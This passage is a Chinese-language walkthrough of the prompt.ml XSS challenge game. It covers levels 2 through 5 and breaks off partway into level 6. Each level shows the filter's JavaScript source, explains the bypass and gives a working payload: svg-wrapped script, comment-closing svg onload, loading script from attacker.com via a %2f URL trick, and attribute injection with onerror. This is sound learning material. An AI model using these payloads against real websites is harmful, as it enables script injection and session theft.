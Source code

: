 * payload:
1.`<svg><script>prompt&#40;1)</script>`

编码方面的学习可以看[http://su.xmd5.org/static/drops/tips-689.html](http://su.xmd5.org/static/drops/tips-689.html)
但注意这里的svg不能去掉，没有<svg>就直接执行了，原因在于script属于raw text elements,内部文本遵循着不转义规则，svg在html的语境下，属于foreign elements,意味着标准不由html定义。而是由svg定义，svg直接继承自xml。
## 第3关
```
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}     
```
这里看源码就知道是把->替换为_，只要绕过注释就可以了，我们在这里想办法闭合注释就可以了，html可以-->或--!>闭合注释
* payload:
1.`--!><svg/onload=prompt(1)`
## 第4关
```
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
} 
```
老实说我不懂这题，这个题目是利用url的黑魔法特性绕过，浏览器支持这样的url:
```
http://user:password@attacker.com。但是http://user:password/@attacker.com是不允许的。由于这里的正则特性和decodeURIConponent函数，所以可以使用%2f绕过，如下：http://prompt.ml%2f@attacker.com。所以域名越短，答案就越短。
```
## 第5关
```
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}        
```
过滤了>和onxxx=，就是不能闭合，onxxx=也全部替换成了_，这里回车绕过就行了。
还有一种方法就是利用image类型，由于最后的type并不能覆盖前一个type,所以可以定义一个类型。
* payload:
`"type=image src onerror="prompt(1)`
## 第6关
```
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
```
